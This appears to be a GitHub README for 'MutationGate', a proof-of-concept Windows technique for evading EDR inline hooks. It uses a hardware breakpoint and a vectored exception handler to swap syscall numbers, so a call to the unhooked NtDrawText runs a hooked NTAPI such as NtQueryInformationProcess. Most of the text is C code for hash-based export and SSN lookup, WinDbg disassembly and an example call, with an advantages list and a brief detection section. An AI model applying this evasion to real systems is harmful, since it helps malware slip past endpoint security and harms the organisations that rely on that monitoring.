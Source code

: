 # MutationGate
MutationGate is a new approach to bypass EDR's inline hooking by utilizing hardware breakpoint to redirect the syscall.

It works by calling an unhooked NTAPI and replacing the unhooked NTAPI's SSN with hooked NTAPI's. In this way, the syscall is redirected to the hooked NTAPI's, and the inline hook can be bypassed without loading the 2nd ntdll module or modifying bytes within loaded ntdll's memory space. 

The provided project is only a `POC`, not a comprehensive implementation. For instance, you could use this approach to set hardware breakpoints for a set of functions. 


## Description
EDR tends to set inline hooks for various NTAPI, especially those are usually leveraged in malware, such as `NtAllocVirtualMemory`, `NtOpenProcess`, etc. While other NTAPI that are not usually leveraged in malware tend not to have inline hook, such as `NtDrawText`. It is very unlikely that an EDR set inline hook for all NTAPI.   

Assume NTAPI `NtDrawText` is not hooked, while NTAPI `NtQueryInformationProcess` is hooked, the steps are as follows:

1. Get the address of `NtDrawText`. It can be achieved by utilizing `GetModuleHandle` and `GetProcAddress` combination, or a custom implementation of them via PEB walking.
```c
  pNTDT = GetFuncByHash(ntdll, 0xA1920265);	//NtDrawText hash
  pNTDTOffset_8 = (PVOID)((BYTE*)pNTDT + 0x8);	//Offset 0x8 from NtDrawText
```
2. Prepare arguments for `NtQueryInformationProcess`
3. Set a hardware breakpoint at `NtDrawText+0x8`, when the execution reaches this address, SSN of `NtDrawText` is saved in RAX, but syscall is not called yet.

```windbg
0:000> u 0x00007FFBAD00EB68-8
ntdll!NtDrawText:
00007ffb`ad00eb60 4c8bd1          mov     r10,rcx
00007ffb`ad00eb63 b8dd000000      mov     eax,0DDh
00007ffb`ad00eb68 f604250803fe7f01 test    byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
00007ffb`ad00eb70 7503            jne     ntdll!NtDrawText+0x15 (00007ffb`ad00eb75)
00007ffb`ad00eb72 0f05            syscall
00007ffb`ad00eb74 c3              ret
00007ffb`ad00eb75 cd2e            int     2Eh
00007ffb`ad00eb77 c3              ret
```
4. Retrieve the SSN of `NtQueryInformationProcess`. Inside the exception handler, update RAX with NtQueryInformationProcess' SSN. I.e., the original SSN was replaced.
```c
...<SNIP>...
uint32_t GetSSNByHash(PVOID pe, uint32_t Hash) 
{
	PBYTE pBase = (PBYTE)pe;
	PIMAGE_DOS_HEADER	pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;
	PIMAGE_NT_HEADERS	pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
	IMAGE_OPTIONAL_HEADER	ImgOptHdr = pImgNtHdrs->OptionalHeader;
	DWORD exportdirectory_foa = RvaToFileOffset(pImgNtHdrs, ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
	PIMAGE_EXPORT_DIRECTORY pImgExportDir = (PIMAGE_EXPORT_DIRECTORY)(pBase + exportdirectory_foa);	//Calculate corresponding offset
	PDWORD FunctionNameArray = (PDWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfNames));
	PDWORD FunctionAddressArray = (PDWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfFunctions));
	PWORD  FunctionOrdinalArray = (PWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfNameOrdinals));

	for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++)
	{
		CHAR* pFunctionName = (CHAR*)(pBase + RvaToFileOffset(pImgNtHdrs, FunctionNameArray[i]));
		DWORD Function_RVA = FunctionAddressArray[FunctionOrdinalArray[i]];
		if (Hash == ROR13Hash(pFunctionName))
		{
			void *ptr = malloc(10);
			if (ptr == NULL) {
				perror("malloc failed");
				return -1;
			}
			unsigned char byteAtOffset5 = *((unsigned char*)(pBase + RvaToFileOffset(pImgNtHdrs, Function_RVA)) + 4);
			//printf("Syscall number of function %s is: 0x%x\n", pFunctionName,byteAtOffset5);	//0x18
			free(ptr);
			return byteAtOffset5;
		}
	}
	return 0x0;
}
...<SNIP>...
```
5. Since we called `NtDrawText` but with `NtQueryInformationProcess`' arguments, the call should be failed. However, since we changed the SSN, the syscall is successful. 
```c
  fnNtQueryInformationProcess pNTQIP = (fnNtQueryInformationProcess)pNTDT;
  NTSTATUS status = pNTQIP(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);	
```




## Example

![example](screenshot/poc.png)

In this example, NtDrawtext's SSN is `0xdd`, `NtQueryInformationProcess`' SSN is `0x19`, the address of NtDrawText is `0x00007FFBAD00EB60`

The call is made to NtDrawText's address, but with NtQueryInformationProcess. Since the SSN is changed from `0xdd` to `0x19`, the syscall is successful.

## Disclaimer
1. MutationGate is not an extension or variant of various Gate. Because those Gate focus more on retrieving SSN of NTAPI, MutationGate focuses on bypassing the inline hook in NTAPI.
2. MutationGate is able to bypass inline hook in NTAPI, however, the individual technique does not guarantee to bypass EDR, because EDR has multiple detection dimensions, inline hook is one of them.
3. The project is a POC, not a complete and comprehensive implementation.



## Advantages of MutationGate Approach
So far, some classic and common approaches to bypass EDR's inline hook include but are not limited to the following approaches:
1. Load the 2nd ntdll module
2. Copy a fresh ntdll's text section to overwrite hooked ntdll's text section
3. Overwrite hooked codes(syscall stub) with fresh code
4. More...

The above techniques involve the modification of loaded ntdll, or loading of the 2nd ntdll. These behaviors could be detected by EDR. 

While MutationGate is not the only approach that untouches loaded ntdll, it does have the advantage of not modifying the loaded ntdll module, which decreases the possibility of getting detected. 

And, it is very simple, no need to modify other registers, etc.


## Detection
It is possible to detect MutationGate technique.

1. The `AddVectoredExceptionHandler` call could look suspicious in a normal program.
2. Call stack looks suspicious, considering functions in ntdll.dll and ntoskrnl.exe are different.

## Credits and References
<https://cyberwarfare.live/bypassing-av-edr-hooks-via-vectored-syscall-poc/>

<https://redops.at/en/blog/syscalls-via-vectored-exception-handling>

<https://gist.github.com/CCob/fe3b63d80890fafeca982f76c8a3efdf>

<https://malwaretech.com/2023/12/silly-edr-bypasses-and-where-to-find-them.html>

Maldev Academy

ChatGPT

## Other Approaches Utilized Hardware Breakpoint
<https://github.com/Dec0ne/HWSyscalls>

<https://github.com/rad9800/TamperingSyscalls>

<https://github.com/RedTeamOperations/VEH-PoC>
